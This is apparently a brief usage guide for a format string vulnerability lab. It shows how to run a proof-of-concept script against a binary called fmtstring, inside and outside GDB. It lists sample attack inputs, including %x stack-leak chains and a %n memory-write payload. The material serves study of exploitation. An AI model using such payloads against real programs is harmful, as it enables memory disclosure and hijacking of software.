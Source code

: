 # Usages

Inside GDB: `run $(./poc.py)`
Outside GDB: `./fmtstring $(./poc.py)`

Other things to try!
(outside of GDB)
`./fmtstring AAAA.%4$x`
`./fmtstring AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`

(inside of GDB)
`r 'AAAA.%x%x%16x%n`
